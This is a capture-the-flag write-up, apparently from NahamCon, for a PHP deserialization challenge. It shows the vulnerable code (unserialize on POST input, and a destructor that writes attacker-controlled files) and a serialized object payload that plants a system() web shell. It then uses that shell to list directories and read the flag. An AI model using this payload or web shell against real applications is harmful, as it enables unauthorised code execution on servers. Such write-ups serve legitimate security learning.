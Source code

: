 ```php
    {
     echo $this->cereal . " is the best cereal btw.";   
    }

}

$input = $_POST['serdata'];
$output = unserialize($input);

$app = new CerealAndMilk;
$app -> cereal_and_milk($output);

?>
```
Looking at index.php, you can see that the log.php file is loaded and the value of the serdata parameter is retrieved and deserialized.

```php
<?php

class log
{
    public function __destruct()
        {
            $request_log = fopen($this->logs , "a");
            fwrite($request_log, $this->request);
            fwrite($request_log, "\r\n");
            fclose($request_log);
        }
}
?>
```
If you look at log.php, you can see that a file is created using the values of `logs` and `requests`. And since logs are the file name and request is the contents of the file, you just need to upload the web shell using php object injection :)

```
O:3:"log":3:{s:4:"logs";s:9:"pocas.php";s:7:"request";s:29:"<?php system($_GET['cmd']);?>";s:4:"milk";s:5:"pocas"}
```
I wrote the payload as above.

```
http://challenge.nahamcon.com:32209/pocas.php?cmd=ls

total 36
drwxr-xr-x    1 apache   apache        4096 Mar 15 04:35 .
drwxr-xr-x    1 root     root          4096 Mar 12 00:42 ..
-rw-r--r--    1 apache   apache          45 Dec  2 21:45 index.html
-rw-r--r--    1 apache   apache        4577 Mar 12 00:41 index.php
-rw-r--r--    1 apache   apache         257 Mar 12 00:41 log.php
drwxr-xr-x    1 apache   apache        4096 Mar 12 00:42 ndwbr7pVKNCrhs-CerealnMilk
-rw-r--r--    1 apache   apache          31 Mar 15 04:35 pocas.php
```
```
http://challenge.nahamcon.com:32209/pocas.php?cmd=ls%20ndwbr7pVKNCrhs-CerealnMilk

flag.txt
```
```
http://challenge.nahamcon.com:32209/pocas.php?cmd=cat%20ndwbr7pVKNCrhs-CerealnMilk/flag.txt

flag{70385676892a2a813a666961ddd6f899}
```
